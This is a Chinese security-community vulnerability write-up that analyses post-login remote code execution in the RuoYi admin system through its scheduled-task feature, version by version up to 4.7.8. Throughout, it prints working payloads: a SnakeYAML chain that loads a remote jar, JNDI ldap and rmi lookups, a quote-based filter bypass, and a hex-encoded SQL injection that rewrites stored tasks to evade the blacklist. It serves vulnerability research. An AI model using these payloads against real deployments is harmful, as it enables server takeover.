# 奇安信攻防社区 - 若依最新版后台 RCE

## 前言

关于若依漏洞或者是审计的文章网上挺多的，本来就只是想写一下最新版 4.7.8 的 RCE。因为之前没接触过若依就打算看看定时任务实现的原理以及历史的漏洞，但是在查阅资料的时候，发现了**一些**文章给的 poc 有问题，比如作者写的是 < 4.7.2 时，给的是 `org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://ip:端口/refObj')`，大概作者的目的是想说明可以通过若依对字符串的处理的一些问题 (参数中的`'` 会替换为空) 绕过对 `rmi` 的过滤，但是却没有考虑到 `org.springframework.jndi` 在 4.7.1 版本中已经加入了黑名单。作者也只是给出了 poc，并没有复现的过程！

## 计划任务实现原理

从[官方文档](https://doc.ruoyi.vip/ruoyi/document/htsc.html#%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1)可以看出可以通过两种方法调用目标类：

-   Bean 调用示例：ryTask.ryParams ('ry')
-   Class 类调用示例：com.ruoyi.quartz.task.RyTask.ryParams ('ry')

接下来咱调试一下，看看具体是如何实现的这个功能的

首先直接在测试类下个断点，看看调用



通过系统默认的任务 1 来执行这个测试类


  
在调用过程中，会发现在 `com.ruoyi.quartz.util.JobInvokeUtil` 类中存在两个名为 `invokeMethod` 的方法，并前后各调用了一次



在第一个 `invokeMethod` 方法中对调用目标字符串的类型进行判断，判断是 Bean 还是 Class。然后调用第二个 `invokeMethod` 方法

-   bean 就通过 getBean () 直接获取 bean 的实例
-   类名就通过反射获取类的实例

```java
if (!isValidClassName(beanName)){  
    Object bean = SpringUtils.getBean(beanName);  
    invokeMethod(bean, methodName, methodParams);  
}  
else  
{  
    Object bean = Class.forName(beanName).newInstance();  
    invokeMethod(bean, methodName, methodParams);  
}
```

第二个 `invokeMethod` 这个方法通过反射来加载测试类

```java
if (StringUtils.isNotNull(methodParams) && methodParams.size() > 0){
    Method method = bean.getClass().getDeclaredMethod(methodName, getMethodParamsType(methodParams));
    method.invoke(bean, getMethodParamsValue(methodParams));
}
```

这大概就是定时任务加载类的逻辑

## 漏洞成因

接着我们新增一个定时任务，看看在创建的过程中对调用目标字符串做了哪些处理

抓包可以看到直接调用了 `/monitor/job/add` 这个接口



可以看到就只是判断了一下，目标字符串是否包含 `rmi://`，这就导致导致攻击者可以调用任意类、方法及参数触发反射执行命令。




由于反射时所需要的：类、方法、参数都是我们可控的，所以我们只需传入一个能够执行命令的类方法就能达到 getshell 的目的，该类只需要满足如下几点要求即可：

-   具有 public 类型的无参构造方法
-   自身具有 public 类型且可以执行命令的方法

## 4.6.2

因为目前对**调用目标字符串**限制不多，so 直接拿网上公开的 poc 打吧！

-   使用 Yaml.load () 来打 SnakeYAML 反序列化
-   JNDI 注入

### SnakeYAML 反序列化

探测 SnakeYAMLpoc：

```php
String poc = "{!!java.net.URL [\"http://5dsff0.dnslog.cn/\"]: 1}";
```

利用 SPI 机制 - 基于 ScriptEngineManager 利用链来执行命令，直接使用这个师傅写好的脚本：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

1）把这块修改成要执行的命令



2）把项目生成 jar 包

```php
javac src/artsploit/AwesomeScriptEngineFactory.java　　　　//编译 java 文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　//打包成 jar 包
```

3）在 yaml-payload.jar 根目录下起一个 web 服务

```php
python -m http.server 9999
```

4）在计划任务添加 payload，执行

```php
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]]]]')
```



### JNDI 注入

使用 yakit 起一个返连服务



poc：

```php
javax.naming.InitialContext.lookup('ldap://127.0.0.1:8085/calc')
```

nc 监听端口




## < 4.6.2

### rmi

上边的分析是拿 4.6.2 版本分析的，在创建定时任务时会判断目标字符串中有没有 rmi 关键字。后边有拐回来看一下，发现在 4.6.2 版本以下，在创建定时任务时是没有任何过滤的。



所以在补充一个 rmi 的 poc：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')
```




## <4.7.0

`4.6.2~4.7.1` 新增黑名单限制调用字符串

-   定时任务屏蔽 ldap 远程调用
-   定时任务屏蔽 http (s) 远程调用
-   定时任务屏蔽 rmi 远程调用





来个小插曲，之前又看到一个文章，阅读量还不少类，师傅给出的 poc 是利用范围是 \*\*<4.7.2\*\*



后边发现不止这一篇，其他就不在举例了。



但是我去翻了 diff，发现在 4.7.1 中的黑名单已经过滤了这些 poc。



### 单引号绕过

在 4.7.0 的版本以下，仅仅只是屏蔽了 ldap、http (s)、ldap。这里可以结合若依对将参数中的所有单引号替换为空来绕过

poc、例如：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://127.0.0.1:1099/refObj')
```

分析：

创建任务时 `r'm'i` 可以绕过对 `rmi` 的过滤



之前分析的定时任务运行的原理，会在 `com.ruoyi.quartz.util.JobInvokeUtil` 类中第一个 `invokeMethod` 方法调用 `getMethodParams` 方法来获取参数



跟进之后发现会把参数中的`'` 替换为空



打个断点调试一下



## <4.7.2

在这个版本下可以看到有可以看到有 ldaps、配置文件 rce 等方法 bypass，网上挺多文章的就不分析了

### ldaps

### 配置文件 rce

## 4.7.3

在 4.7.3 的版本下，又增加了白名单，只能调用 com.ruoyi 包下的类！并且把之前所有的路堵死了




## 4.7.8（最新版）

依旧是没办法绕过黑白名单的限制。之前我们大概分析了一下定时任务的创建。对**调用目标字符串**过滤是在定时任务创建时进行的

审计之后可以看到，对目标字符串的过滤只发生在增加、修改计划任务时



创建后的定时任务信息存储在 **sys\_job** 表中



结合 4.7.5 版本下的 sql 注入漏洞，直接修改表中的数据  
参考：[https://gitee.com/y\_project/RuoYi/issues/I65V2B](https://gitee.com/y_project/RuoYi/issues/I65V2B)

在 `com.ruoyi.generator.controller.GenController#create`



这块直接调用了 `genTableService.createTable()`, 咱直接跟进去看看


Mapper 语句：



接下来创建一个定时任务调用这个类，直接从 sys\_job 表中把某一个定时任务调用目标字符串 (invoke\_target 字段) 改了

先谈个 dnslog 试试

```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'javax.naming.InitialContext.lookup('ldap://xcrlginufj.dgrh3.cn')' WHERE job_id = 1;')
```

但会触发黑名单



由于是执行 sql 语句，直接将 value 转为 16 进制即可



```php
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729 WHERE job_id = 1;')
```

可以成功创建  


运行后任务 1 的**调用目标字符串**也被成功修改



紧接着运行任务 1



接下来弹个计算机

yakit 开个反连，配置一下



执行上边的步骤修改任务 1，在运行任务 1





## 总结

碰上前言中说到的事确实感到挺无奈却又无可奈何。也有可能是我能力不够分析有误，如果有问题希望各位师傅及时指正！

## 参考

[https://xz.aliyun.com/t/10687](https://xz.aliyun.com/t/10687)

[https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90](https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90)

[https://www.cnblogs.com/pursue-security/p/17658404.html#\_label1\_3](https://www.cnblogs.com/pursue-security/p/17658404.html#_label1_3)

[https://xz.aliyun.com/t/10957](https://xz.aliyun.com/t/10957)

[https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)
